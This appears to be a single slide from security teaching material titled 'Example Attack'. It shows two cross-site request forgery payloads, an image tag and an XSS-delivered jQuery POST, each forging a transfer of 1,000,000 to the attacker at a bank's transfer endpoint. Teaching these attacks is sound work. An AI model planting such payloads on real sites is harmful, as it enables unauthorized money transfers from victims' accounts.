

# Example Attack
Images
<img src=“bank.com/transfer.php?to=me&amount=1000000” />
XSS
$.post(‘bank.com/transfer.php’, {to: ‘me’, amount: 1000000});